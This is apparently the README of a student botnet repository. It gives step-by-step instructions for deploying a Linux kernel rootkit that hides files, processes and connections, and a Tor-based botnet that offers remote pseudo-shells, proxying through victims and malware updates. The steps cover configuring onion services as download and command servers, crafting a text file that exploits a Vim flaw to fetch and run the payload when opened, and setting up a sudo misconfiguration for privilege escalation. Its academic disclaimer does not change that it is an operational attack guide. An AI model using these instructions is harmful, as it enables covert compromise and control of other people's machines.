




# Hybrid Botnet Over TOR

This repository contains the code necessary to deploy a botnet targeting Linux machines to demonstrate what can be done with this type of systems. This was used for my final degree project on the study of espionage systems and the development of a botnet.

## Table of contents

* [Development Environment](#development-environment)
* [Code Content](#code-content)
* [Assumptions](#assumptions)
* [Set up the demo](#set-up-the-demo)
  * [Set up the seed machine](#set-up-the-seed-machine)
    * [Generate the Loadable Kernel Module File](#generate-the-loadable-kernel-module-file)
    * [Generate code folder to copy in the seed](#generate-code-folder-to-copy-in-the-seed)
    * [Set up tor and libraries](#set-up-tor-and-libraries)
    * [Start seed code](#start-seed-code)
  * [Set up the victim machine](#set-up-the-victim-machine)
    * [Generate the text file to infect the victim](#generate-the-text-file-to-infect-the-victim)
    * [Set up user account](#set-up-user-account)
    * [Simulate a victim infection](#simulate-a-victim-infection)
* [Connecting to victims](#connecting-to-victims)
* [Video demonstration](#video-demonstration)
* [Credits](#credits)
* [Acknowledgements](#acknowledgements)
* [Disclaimer](#disclaimer)

## Development Environment

We have done the research based on the requirements below. Some of this requirements could be modified (i.e., the Linux kernel version). However, we cannot assure the correct functioning of the demo if any version is modified.

Ubuntu Distribution on a machine or VirtualBox with the following:

- Linux kernel 5.3.0-45 generic
- [Vim 8.1.13.6](https://www.unix-ninja.com/p/exploiting_vim_with_cve-2019-12735)
- [Sudo version 1.8.21p2-3ubuntu1](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

You can use conda to replicate de developing environment just by running `. ./setup.sh` after cloning the repository. This script will create a conda environment, install the required libraries and execute the tests.

## Code Content

- Script to infect a machine developed in Python 3.7.6
- Linux Rootkit using a Loadable Kernel Module (LKM)
    - Hide files and directories
    - Hide processes
    - Hide himself
    - Hide TCP4 connections
    - Persistence (Loadable Kernel Module is loaded at boot up)
    - Start hybrid Botnet code
- Hybrid Botnet developed in Python 3.7.6
    - Obtain a pseudo shell from any victim
    - Use any victim as [anonymizer](https://en.wikipedia.org/wiki/Anonymizer)
    - Update the code of every victim in the botnet

## Assumptions

- When sending a message over the botnet, all victims will be up
- The user we want to infect have vim and sudo installed with the versions in the Research Environment section

## Set up the Demo

To execute the demo, you will need to set up a seed machine from where the victims will download the code to execute the hybrid server and client side logic. Some files will need to be created: the rootkit.ko to load a Loadable Kernel Module to the Linux kernel and a txt file that will infect the victim on the event that it is opened.

At this point, clone the repository and enter to the main folder if you have not already. You should find yourself in `.../hybrid-botnet/`.

### Set up the seed machine

To prepare the seed machine we will need to performe some steps.

#### Generate the Loadable Kernel Module File

To use the rootkit we will first need to create the rootkit.ko file that will be loaded into the kernel.

1. Copy the `src/rootkit/`  folder into the type of machine you want to infect (for the purposes of this demo we want to infect machines with an Ubuntu distribution installed on it and Linux kernel 5.3.0-45 generic as stated in the [Development Environment](#development-environment) section)

#### Generate code folder to copy in the seed

The relevant botnet client/server code must be saved in a folder along with
the Loadable Kernel Module, the public key to be used by the botnet victims
and the private key to be used by the master (so just the master of the botnet
can access the victims).

In a machine with the cloned repository:

1. `./scripts/build_demo.sh`
2. Copy `rootkit.ko` to `demo/rootkit_demo/public/source/`
3. Now you should have a folder `demo/rootkit_demo/` with all the code necessary and a 
private key `demo/private_key` that is paired with the public key the victims will have.

#### Set up tor and libraries

With all the required code and files generated, we can now start to prepare the seed machine.

1. `sudo apt install tor python3-socks`
2. `echo "HiddenServiceDir /var/lib/tor/hidden_download/" | sudo tee -a /etc/tor/torrc; echo "HiddenServicePort 40001 127.0.0.1:40000" | sudo tee -a /etc/tor/torrc; echo "HiddenServiceDir /var/lib/tor/hidden_communication/" | sudo tee -a /etc/tor/torrc; echo "HiddenServicePort 50001 127.0.0.1:50000" | sudo tee -a /etc/tor/torrc`
3. `sudo systemctl restart tor`

#### Start seed code

1. Copy `demo/rootkit_demo/` into the folder `/etc/systemd/system/` 
2. Fill peer lists with initial data (seed name, seed download onion and seed communication onion)
    1. `echo seed0 $(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname) | sudo tee -a /etc/systemd/system/rootkit_demo/private/full_peer_list` 
    2. `echo seed0 $(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname) | sudo tee -a /etc/systemd/system/rootkit_demo/public/peer_list`
3. `sudo chown "user":"group" /etc/systemd/system/rootkit_demo -R` where user and group must be changed according to the user you are using on the machine.
4. `cd /etc/systemd/system/rootkit_demo/public`
5. `python3 -m http.server 40000`
6. In a new terminal, `cd /etc/systemd/system/rootkit_demo/public/source`
7. `sudo python3 server.py`

If all was done correct, you should have up and running and http server and the botnet communication server.
This machine can be seen as the first victim of the botnet.

### Set up the victim machine

To set up the victim machine we will just need to generate the file text that will
execute the malicious code, and open when we decide to simulate an infection.

#### Generate the text file to infect the victim

1. `cd scripts`
2. Modify the file called onion directions in the `exploit` file for the onion directions of your seed machine. You can execute `$(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname)` in the seed machine to obtain the onions directions.
    1. `sed -i 's/kdq2tg4jedd5tqxs.onion/new download onion/g' exploit`
    2. `sed -i 's/57yvvr2pfb46zull.onion/new communication onion/g' exploit`
3. `bash transform.sh exploit`
4. Inside scripts, a file called `poc.txt` will now appear. Save it, we will need it later

#### Set up user account

1. `sudo visudo` and add `"username" ALL=(ALL,!root) NOPASSWD: ALL
2. Remove user from sudo group, if needed. `sudo deluser "username" sudo`
3. Reboot

We have a user prepared to exploit through privilege escalation.

#### Simulate a victim infection

1. Copy `poc.txt` to the victim machine
2. `vim poc.txt`

This will open a file and start a python script in the background that will install all the required libraries, set up TOR and start the download and communication for server in the victim machine. You can use `ps aux | grep malware` to see if the process is up and running.

## Connecting to victims

Once the seed machine and the victim are set up, you can interact with them through a client, it can be found in `src/botnet/client.py`.

The only left detail is that you will need to store the seed and victim onions directly in the client code or in a text file to access them. Moreover, take into account that to be able to communicate with the victims you will need TOR. You can either install it or use a docker, this [guide](https://dev.to/boris/running-tor-using-docker-4d7h) may help you.

In the previous section you modified the `exploit` with your own seed onions directions. You will need to repeat that process to modify the client. Repeat step 2 of *Generate the text file to infect the victim*.

Moreover, if you have already some victims you will need to retrieve this data from seed or other peers of the network manually from `/etc/systemd/system/rootkit_demo/private/full_peer_list` or `/etc/systemd/system/rootkit_demo/public/peer_list`(since no feature in the client allows for the retrieve of this information). The file must contain lines with the following format: "name download_onion communication_onion". This information can be obtained from the full_peer_list or the peer_list

Now you are good to go. Just execute`python3 /src/botnet/client.py` and a shell called chameleon will appear. You can type `help` to see the different commands and `"command" -h` to know what a command  works.

## Video demonstration

In this repository you will find some videos to demonstrate the different capabilities of this project inside `videos` folder.

- init_botnet_two_victims.mp4 will show you have to start the servers on the seed machines (assuming you have already installed the required libraries and stored the code where it should)
- direct_connection.mp4 will show you how to directly connect to a seed or victim machine and get a pseudoshell
- connection_through_anonymizers.mp4 will show you the same as the previous video while using other victims and seed machines as anonymizers
- update_malware.mp4 will show you how to update the malware
- hide.mp4 will show you all the information that is hidden

## Credits

* [Xavier Salleras](https://github.com/xevisalle)

## Acknowledgements

I based some of my rootkit code and features on:

* [nisay759/linux-rootkits](https://github.com/nisay759/linux-rootkits)
* [ f0rb1dd3n/Reptile ](https://github.com/f0rb1dd3n/Reptile)

## Disclaimer

The use of this code is  your responsibility.

**EVERY** file in this repository is for **ACADEMIC** or **RESEARCH** purposes. I take **NO** responsibility on any action performed by any individual using the whole or  a part of the code.
